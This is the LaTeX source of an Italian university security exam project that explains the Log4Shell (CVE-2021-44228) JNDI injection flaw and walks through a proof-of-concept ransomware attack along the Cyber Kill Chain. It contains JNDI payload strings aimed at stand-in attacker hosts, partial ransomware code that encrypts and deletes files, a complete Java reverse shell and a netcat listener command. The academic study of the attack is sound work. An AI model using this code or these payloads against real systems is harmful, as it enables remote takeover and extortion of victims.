\documentclass[a4paper, 12pt]{article}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}

\title{Exploiting Log4j vulnerability}
\author{Cristiano Di Bari}
\author{Matteo Cavaliere}

\usepackage[italian]{babel}

\usepackage[margin=25mm]{geometry}  
\usepackage{graphicx}              
\usepackage{pdfpages}             
\usepackage{afterpage}
\usepackage[hidelinks]{hyperref}

\usepackage{xcolor}
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.68,0,0.12}
\definecolor{backcolour}{rgb}{1,1,1}

\usepackage{listings}

\lstloadlanguages{Java}
\lstdefinestyle{JavaCodeStyle}{
   	language=Java,
   	backgroundcolor=\color{backcolour},
	basicstyle=\ttfamily\footnotesize,
   	commentstyle=\color{codegray},
   	keywordstyle=\color{codegreen},
   	stringstyle=\color{codepurple},
    numbers=left,
   	numbersep=-7pt,
	numberstyle=\tiny\color{gray},
	breakatwhitespace=false,
	breaklines=true,
	keepspaces=true,
	showspaces=false,
	showstringspaces=false,
	showtabs=false,   
    tabsize=5,
    frame=lines,
	captionpos=b,
}
\lstset{style=JavaCodeStyle}

\begin{document}

%% FRONTESPIZIO %%
\begin{titlepage}
    \vbox{ }

    \begin{center}
        
\includegraphics[width=0.60\textwidth]{img/univr-di-logo.png}\\[2cm]
        \textsc{\Large Fondamenti di Sicurezza e Privacy}\\[0.6cm]

        \noindent\makebox[\linewidth]{\rule{.7\paperwidth}{.6pt}}\\[0.7cm]
        { \huge \bfseries Exploiting Log4j vulnerability}\\[0.25cm]
        \noindent\makebox[\linewidth]{\rule{.7\paperwidth}{.6pt}}\\[0.7cm]
        \large{Progetto d'Esame}\\[1.2cm]
        \vfill
        \large
        
        \emph{Studenti:}\\[1mm]
        Cristiano Di Bari  - VR476576  \\[1mm]
        Matteo Cavaliere - VR477235  \\[2cm]

        {\large A.A. 2021-2022}
    \end{center}
\end{titlepage}

\tableofcontents
\newpage

%% LOG4SHELL %%
\section{La vulnerabilità Log4Shell}
Il 9 dicembre 2021 è stata resa nota pubblicamente una vulnerabità che affligge la libreria di logging \emph{\href{https://logging.apache.org/log4j/2.x/}{Apache Log4j}}, utilizzata per gestire le operazioni di logging in moltissime applicazioni Java.
La vulnerabilità, subito rinominata \emph{Log4Shell}, è stata segnalata come critica data la larga scala su cui impatta, le conseguenze che può provocare e la sua facilità di sfruttamento.
Lo zero-day, inizialmente annunciato con un tweet insieme ad un PoC caricato su github è stato ora pubblicato come \textbf{\href{https://nvd.nist.gov/vuln/detail/CVE-2021-44228}{CVE-2021-44228}},  una vulnerabilità di tipo Remote Code Execution (RCE) classificato 10 su 10 in termini di gravità. Infatti, tramite il log di una determinata stringa, un cybercriminale ha la possibilità di eseguire codice arbitrario e, potenzialmente, ottenere il controllo totale del sistema su cui viene eseguita l'applicazione vittima.

Il problema è stato originariamente scoperto durante una ricerca di bug sui server Minecraft, ma Log4j è presente in quasi tutte le applicazioni aziendali e i server Java.
Ad esempio, la libreria può essere trovata in tutti i prodotti rilasciati dalla Apache Software Foundation ed è utilizzata attivamente in famosi progetti open source.
Pertanto, anche le aziende che utilizzano uno di questi prodotti sono indirettamente vulnerabili agli attacchi Log4Shell.
L'impatto di questa vulnerabilità è talmente esteso che secondo gli esperti ha colpito il 48,3\% delle organizzazioni a livello globale. 

Allo stato attuale la maggior parte degli attacchi si concentra sul mining di criptovalute a spese delle vittime, tuttavia approfittando del rumore di fondo gli attaccanti più esperti inizano a mettere in atto attacchi per installare malware su dispositivi vulnerabili. 


\subsection{JNDI Injection}
Nel 2013 il team di sviluppo di Log4j ha aggiunto un plugin chiamato \textbf{JNDI-Lookup} alla libreria di logging. Per capire come questa modifica abbia portato alla recente vulnerabilità, è necessario introdurre il concetto di \emph{Java Naming and Directory Interface} (\textbf{JNDI}).


\subsubsection{JNDI}
JNDI fornisce un'API Java che consente alle applicazioni di interagire con oggetti remoti memorizzati attraverso servizi di naming e directory.
Esso dispone di una serie di SPI (\emph{Service Provider Interface}) che permettono di utilizzare una varietà di servizi di directory.
Tramite questa interfaccia i client Java possono scoprire e ottenere dati e oggetti attraverso un nome. 

JNDI supporta due protocolli principali: RMI e LDAP, in entrambi i casi una chiamata lookup ha lo scopo di restituire un oggetto Java. Questi oggetti sono solitamente serializzati, tuttavia esiste anche un meccanismo di riferimento JNDI per la costruzione indiretta di un oggetto tramite una factory.
I bytecode di questi oggetti (o delle factory) possono essere caricati tramite l'URL di una codebase remota (cioè un server web contenente file \verb!.class!). Un'applicazione Java può ad esempio utilizzare il protocollo LDAP tramite JNDI per trovare un oggetto remoto contenente i dati di cui potrebbe aver bisogno.


\subsubsection{LDAP attack vector}
\emph{Lightweight Directory Access Protocol} (LDAP) è un protocollo standard per l'interrogazione e la modifica dei servizi di directory.
Le informazioni all’interno di un server LDAP sono organizzate in modo gerarchico in elementi chiamati entry che vengono identificati in modo univoco mediante il \emph{Distinguished Name} (DN) così come un file viene identificato nel file system mediante il proprio path. Ciascuna entry viene associata ad una o più classi di oggetti che definiscono la struttura che questa deve assumere, attributi opzionali e obbligatori e tipologia di informazioni contenute.

Il client inizia una sessione LDAP collegandosi ad un server LDAP, comunemente in ascolto su due porte TCP, una per la connessione in chiaro (porta 389) ed una la connessione cifrata (porta 636)
Esiste un formato per una URL che identifica un'operazione LDAP e che solitamente viene utilizzato per effettuare ricerche o per consentire al server di restituire dei \emph{referrals} cioè riferimenti ad un altro server che contiene le informazioni richieste dal client.
\begin{center}
    \verb!ldap://host:port/DN?attributes?scope?filter?extensions!
\end{center}

Ad esempio, il seguente URL: \verb!ldap://localhost:389/o=ObjectID! può essere usato per trovare e richiamare \verb!Object! da un server LDAP remoto in esecuzione sulla stessa macchina (localhost) o su una macchina collegata in rete ospitata in un ambiente controllato.
Tuttavia, il servizio LDAP potrebbe essere in esecuzione su un server diverso, potenzialmente in qualsiasi punto di Internet. Tale flessibilità implica che un utente malintenzionato con la capacità di controllare l'URL LDAP, sarebbe in grado di condurre un programma Java ad istanziare una classe da un server LDAP sotto il suo controllo. 
Questo significa che un'attaccante che può controllare l'URL JNDI, può far sì che l'applicazione carichi ed esegua codice Java arbitrario.


\subsubsection{JNDI in Log4j}
Log4Shell è fondamentalmente una vulnerabilità di JNDI Injection abbastanza semplice, triggerata tramite la ricerca JNDI, chiamata JNDI Lookup, implementata nella libreria di logging, che consente di recuperare variabili remote tramite JNDI.

Log4J effettua una JNDI lookup mentre espande i placeholder nei messaggi di log. Quasi tutti gli input dell'utente, prima di essre loggati, vengono interpretati dal logger, questo consente all'attaccante che può manipolare l'input, di caricare dati da un server JNDI dannoso e potenzialmente eseguire codice Java arbitrario.
Log4j2 supporta la possibilità di specificare dei placeholder nei messaggi di log come riferimenti a proprietà definite altrove. Questo viene effettuato attraverso una sintassi speciale nella forma \verb!${prefisso:nome}!, dove il prefisso identifica un contesto specifico nel quale valutare il nome della variabile.
Ad esempio loggando la stringa \verb!${java:version}! si ottiene la versione corrente di Java in esecuzione.

Tutto ciò che un attaccante deve fare per sfruttare la vulnerabilità è trovare un input che viene registrato nei log ed iniettare una stringa del tipo:
\begin{center}
    \verb!${jndi:ldap://attackerserver.com/a}!
\end{center}
Questo potrebbe essere un'intestazione HTTP come lo User-Agent (comunemente registrato nei log) o un parametro di un form come username o password che viene loggato dalla applicazione.


\subsubsection{Patch nelle versioni Java}
Per diverso tempo sia per RMI che per LDAP il riferimento che era possibile specificare relativo alla codebase da importare non è stato affatto limitato, una chiamata lookup ad server LDAP o RMI controllato dall'attaccante portava direttamente all'esecuzione di codice remoto.

A partire dalla versione di Java \verb!8u121! l'inserimento di una codebase remota è stata bloccata di default per quanto riguarda RMI.
Apparentemente la patch era stata applicata anche per LDAP, ma si è rivelata completamente inefficace per il caricamento di oggetti tramite le codbase di factory. Pertanto, fino al rilascio di Java \verb!8u191! (circa tre anni fa) i riferimenti LDAP consentivano di caricare classi remote contenenti codice arbitrario tramite una chiamata JNDI lookup controllata.

Le versioni JDK successive a \verb!8u191! non sono vulnerabili al vettore di attacco LDAP. In queste versioni \verb!com.sun.jndi.ldap.object.trustURLCodebase! è impostato su \verb!false! per impostazione predefinita, il che significa che JNDI non può caricare codice remoto utilizzando LDAP. Tuttavia, esistono altri vettori di attacco capaci di causare RCE, un attaccante infatti potrebbe comunque sfruttare il codice di altre applicazioni esistenti sul server per ottenere il caricamento di codice remoto. 


\subsection{Requisiti dell'attacco}
Tantissimi servizi sono vulnerabili a questo exploit, servizi in cloud come Minecraft, Steam ma anche applicazioni desktop.
Qualsiasi software Java utilizzi la famosa libreria di Apache potrebbe essere esposto ad attacchi che sfruttano la vulnerablità.

I requisiti per considerare un sistema una potenziale vittima di questo tipo di attacchi sono:
\begin{itemize}
    \item Un server con una versione di Apache log4j compresa fra la \verb!2.0-beta9! e la \verb!2.14.1!.
    
    \item Un endpoint in ascolto su qualsiasi protocollo (HTTP, TCP, \dots) che permetta all'attaccante di inviare il payload malevolo
    
    \item Un'istruzione che effettui il log tramite log4j della stringa ricevuta.
\end{itemize}

\begin{figure}
\centering

\includegraphics[width=0.7\textwidth]{img/log4shell.png}
\caption{Schema di un attacco mediante Log4Shell}
\label{fig:log4shellschema}
\end{figure}


\subsection{Fasi dell'attacco}
Un'attacco che sfrutta la vulnerabilità Log4Shell con il vettore LDAP per ottenere una RCE, mostrato in figura \ref{fig:log4shellschema}, si struttura in 4 fasi principali:

\begin{enumerate}
    \item L'attaccante attraverso una richiesta attuata con qualsiasi portocollo (HTTP, TCP, \dots) invia al server target il payload malevolo con l'URL JNDI:
    \begin{center}
        \verb!${jndi:ldap://attackerserver.com:1389/Exploit}!
    \end{center}
    all'inerno di un campo testuale che verrà successivamente loggato dalla applicazione con Log4j. 
    
    \item Il logger parserizza il payload ed effettua una richiesta tramite JNDI al server \verb!attackerserver.com!, controllato dall'attaccante, alla ricerca dell'oggetto \verb!Exploit!.
    
    \item Il sever LDAP dell'attaccante risponde fornendo il path di un file Java compilato (\verb!http://attackerserver.com/Exploit.class!) contenuto in un secondo server malevolo remoto.
    
    \item A questo punto l'applicazione vulnerabile carica il file remoto \verb!Exploit.class!, instanziando l'oggetto Java ed eseguendo il codice del suo costruttore. Tale operazione consente all'attaccante di ottenere i privilegi di esecuzione di codice remoto sull'host.
\end{enumerate}


\newpage

%% POC %%
\section{PoC: Attacco Ransomware tramite Log4Shell}
Per mostrare come Log4Shell possa condurre facilmente un avversario ad eseguire codice su una macchina target è stato realizzato un \emph{Proof of Concept} che illustra un tipico attacco ransomware effettuato per mezzo di questa vulnerabilità.

Tutto il codice realizzato è disponibile su GitHub all'indirizzo \href{https://github.com/CriDiba/log4shell-analysis}{https://github.com/ CriDiba/log4shell-analysis}, nel repository è presente un file che descrive come effettuare il setup della macchina ai fini del funzionamento del progetto.

\subsection{Macchina vittima}
La macchina vittima è costituita da una web-app vulnerabile eseguita su un server web Apache Tomcat in ascolto sull porta 8080.
L'applicazione web è stata sviluppata con la tecnologia JSP ed utilzza Java Servlet per l'elaborazione lato server.

Il software simula una comune applicazione aziendale esposta sul web e in esecuzione su un server interno a cui è possibile accedere tramite un URL (es. \texttt{www.<app- name>.com:8080}).
La pagina principale mostra una schermata di login nella quale è necessario inserire nome utente e password per effettuare l'accesso alla app.
Il form di login invia una richiesta HTTP POST contenente le credenziali inserite dall'utente, che viene processata da un Login Servlet mostrato in figura \ref{fig:loginservlet}. La classe si occupa di validare le credenziali e di memorizzare in un file di log lo username degli utenti che tentano di effettuare l'accesso.
L'operazione di scrittura del log mediante Log4j permette di triggerare la nota vulnerabilità.

\begin{figure}
    \centering
    \begin{lstlisting}
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;
    
    @WebServlet(name = "loginServlet", value = "/login")
    public class LoginServlet extends HttpServlet {
        private static final Logger logger = LogManager.getLogger("LoginServlet");
    
        @Override
        protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            String userName = req.getParameter("uname");
            String password = req.getParameter("password");
            logger.info("User " + userName + " tried to log in");
    
            if (this.check(userName, password)) {
                RequestDispatcher view = req.getRequestDispatcher("dashboard.jsp");
                view.forward(req, resp);
            } else {
                req.setAttribute("error", "Login failed");
                RequestDispatcher view = req.getRequestDispatcher("index.jsp");
                view.include(req, resp);
            }
        }
    }
\end{lstlisting}
    \caption{Login Servlet - Codice Java}
    \label{fig:loginservlet}
\end{figure}


\subsection{Macchina attaccante}
La macchina attaccante comprende diversi servizi che vengono eseguiti per interagire con il sistema target. Tra questi si trovano:
\begin{itemize}
    \item Un server LDAP malevolo che ascolta le connessioni sulla porta 1389 e restituisce il path ad un oggetto Java contenente il codice dell'attacco.
    \item Un server web che permette di accedere al bytecode dell'oggetto remoto.
    \item Un listener netcat in attesa sulla porta 9001 di connessioni TCP da parte della macchina vittima.
\end{itemize}


\subsection{Cyber Kill Chain dell'attacco}
L'obiettivo principale dell'attaccante è eseguire un malware sulla macchina della vittima con il fine di corrompere i file presenti in memoria e chiedere un riscatto per il ripristino di questi.
Si descrive ora lo svolgimento dell'attacco mediante il modello Cyber Kill Chain.


\subsubsection{Reconnaissance}
Nella prima fase, l’attaccante interagisce con gli host e con la rete target alla ricerca di un endpoint in ascolto su qualsiasi protocollo che permetta di inviare il payload malevolo (\textbf{Active Scanning}).
Una volta individuata l'applicazione web sulla porta 8080 alla quale inviare richieste HTTP, è opportuno assicurarsi che questa sia effettivamente vulnerabile a Log4Shell.

Il modo più semplice per rilevare se un endpoint remoto è vulnerabile, consiste nell'attivare una query DNS. 
Utilizzando un logger DNS online (ad esempio \href{http://dnslog.cn}{dnslog}), è possibile generare un nome di dominio ed inserirlo nell'URL JNDI di un payload di prova.
\begin{center}
    \verb!${jndi:ldap://fchcia.dnslog.cn/a}!
\end{center}
A questo punto è necessario inviare il payload attraverso una richiesta HTTP,  l'exploit farà sì che il server tenti di recuperare dei dati in remoto, permettendo di rilevare una eventuale attivazione della vulnerabilità (figura \ref{fig:dnslog}.
\`E possibile automatizzare l'operazione attraverso strumenti come i vulnerability scanner reperibili online.

\begin{figure}
\centering

\includegraphics[width=1\textwidth]{img/dnslog.png}
\caption{Query DNS effettuate tramite JNDI}
\label{fig:dnslog}
\end{figure}

\subsubsection{Weaponization}
Questa fase consiste nel creare il malware per cifrare i dati e generare un payload per sfruttare la vulnerabilità identificata (\textbf{Resource Development}).
A tale scopo sono stati implementati i seguenti file:
\begin{itemize}
    \item \verb!Ransomware.java!: (figura \ref{fig:ransomware}) contiene il codice del malware che si occupa di cifrare i dati.
    \item \verb!ReverseShell.java!: (figura \ref{fig:revshell}) contiene il codice per aprire una reverse shell sulla macchina avversaria.
    \item \verb!exploit.py!: avvia i servizi LDAP e HTTP sul server attaccante e genera il payload malevolo.
\end{itemize}

\begin{figure}
    \centering
    \begin{lstlisting}
    public class Ransomware {
        private final static SecretKey key = Ransomware.generateKey();
        private final static String publicKey = "__public.key__";
    
        public Ransomware() throws Exception {
            Ransomware.sendKey();
            Ransomware.fireUp();
            while (true) {
                Ransomware.recover();
            }
        }
    
        private static void fireUp() {
            File file = new File(baseDir);
            File[] files = file.listFiles(new FilenameFilter() {
                @Override
                public boolean accept(File dir, String name) {
                    return name.toLowerCase().endsWith(".txt");
                }
            });
            for (File f : files) {
                Ransomware.encryptRoutine(baseDir + f.getName());
            }
        }
    
        private static void encryptRoutine(String fileName) {
            File inputFile = new File(fileName);
            File encryptedFile = new File(fileName + ".encrypted");
            try {
                Ransomware.encrypt(inputFile, encryptedFile);
                System.out.println(inputFile + " is encrypted now");
                inputFile.delete();
            } catch (Exception e) {
                System.out.println(e.getMessage());
                e.printStackTrace();
            }
        }
        
        //...
    }
\end{lstlisting}
    \caption{Ransomware - Codice Java}
    \label{fig:ransomware}
\end{figure}

\subsubsection{Delivery}
In un attacco che sfrutta Log4j la fase di Delivery non è presente poiché la trasmissione e la seguente esecuzione del malware vengono effettuati durante l'exploit della vulnerabilità legata alla libreria di logging.


\subsubsection{Exploitation}
La fase principale dell'attacco viene attuata sfruttando la vulnerabilità di Log4j per ottenere una RCE (\textbf{Exploit Public-Facing Application
}). 
Lo script \verb!exploit.py! presente nel progetto ha lo scopo di:
\begin{itemize}
    \item Instanziare un server LDAP malevolo in ascolto sulla porta 1389.
    \item Compilare la classe Java da eseguire sulla macchina vittima ed hostare il file \verb!.class! su un server HTTP in ascolto sulla porta 8000.
    \item Generare il payload malevolo per sfruttare la vulnerabilità, formattato come una stringa del tipo: 
    \begin{center}
        \verb!${jndi:ldap://attacker-ldap.com:1389/a}!
    \end{center}
\end{itemize}

\`E possibile osservare lo script in funzione in figura \ref{fig:exploit}.

\begin{figure}
\centering

\includegraphics[width=0.8\textwidth]{img/exploit.png}
\caption{Script di exploit}
\label{fig:exploit}
\end{figure}

L'attaccante invia al server web il payload generato inserendolo nel campo \verb!username! del form di login.
Apache Log4j, al momento di loggare il nome utente, effettua una richiesta JNDI al server LDAP creato, il quale restituisce il path dell'oggetto Java con il codice malevolo.
A questo punto, l'applicazione vulnerabile carica il file remoto ed esegue il codice del ransomware che andrà a cifrare i dati della vittima (\textbf{Data Encrypted for Impact}).

\subsubsection{Installation}
Questa fase è facoltativa ai fini dello sviluppo dell'attacco ransomware, si è comunque deciso di inserirla nel PoC con il fine di mostrare la numerosità di applicazioni a cui si presta Log4Shell.

L’obiettivo dell'attaccante è quello di mantenere l’accesso alla macchina (persistenza), per fare ciò è possibile creare una \textbf{backdoor shell}.
Tramite una ulteriore JNDI Injection si esegue il codice remoto di una classe Java che, collegandosi ad un server malevolo dell'attaccante, apre una reverse shell (\textbf{Command and Scripting Interpreter
}).
Questo exploit permette di ottenere il totale controllo della macchina vittima e può essere usato come base per lanciare ulteriori attacchi.

\begin{figure}
    \centering
    \begin{lstlisting}
    public class ReverseShell {
        public ReverseShell() throws Exception {
            String host = "__ip__";
            int port = Integer.parseInt("__port__");
            String cmd = "/bin/sh";
    
            Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
            Socket s = new Socket(host, port);
            InputStream pi = p.getInputStream(),
                    pe = p.getErrorStream(),
                    si = s.getInputStream();
            OutputStream po = p.getOutputStream(), so = s.getOutputStream();
    
            while (!s.isClosed()) {
                while (pi.available() > 0) {
                    so.write(pi.read());
                }
    
                while (pe.available() > 0) {
                    so.write(pe.read());
                }
    
                while (si.available() > 0) {
                    po.write(si.read());
                }
    
                so.flush();
                po.flush();
                Thread.sleep(50);
    
                try {
                    p.exitValue();
                    break;
                } catch (Exception e) {
                }
            }
    
            p.destroy();
            s.close();
        }
    }
\end{lstlisting}
    \caption{Revershe Shell - Codice Java}
    \label{fig:revshell}
\end{figure}

\subsubsection{Command and Control}
In questa fase viene stabilito un canale di comunicazione con un server controllato dall’attaccante. 
Tramite \textbf{netcat} viene avviato un listener in ascolto sulla porta 9001.
\begin{center}
    \verb!$ nc -lvnp 9001!
\end{center}
In questo modo il sever si mette in attesa di un collegamento da parte della macchina vittima.

Il malware, una volta avviato, si connette al server C2 per inviare, in modo criptato, la chiave simmetrica necessaria per decifrare i file corrotti. Essa verrà inviata alla vittima soltanto dopo il pagamento del riscatto stabilito.


\subsubsection{Actions on Objectives}
Una volta che il sistema target è stato compromesso tramite la cifratura dei file presenti nella macchina e il riscatto viene pagato, l'attaccante consegue l’obiettivo per il quale l’attacco è iniziato.

\newpage

\section{Conclusioni}
Ciò che rende Log4Shell così pericoloso è l'elevata numerosità delle applicazioni che utilizzano internamente la libreria Log4j.
È presente nelle principali piattaforme da Amazon Web Services a VMware, questa rete di dipendenze tra servizi interessati comporta una difficoltà aggiuntiva nell’applicazione di patch, e può rivelarsi un processo complesso che necessita di molto tempo.
Infine, la facilità di sfruttamento di questa vulnerabilità e i diversi exploit che mette a disposizione di un attaccante ne aggravano ulteriormente l’impatto. 

In poche parole, la generazione di un log che si vorrebbe utilizzare come strumento di monitoraggio, forse anche per motivi  di sicurezza, potrebbe trasformarsi in un evento catastrofico.

\newpage

%% BIBLIOGRAFIA %%
\addcontentsline{toc}{section}{\bibname}
\bibliographystyle{plain}
\nocite{*}
\bibliography{bibliography}


\end{document}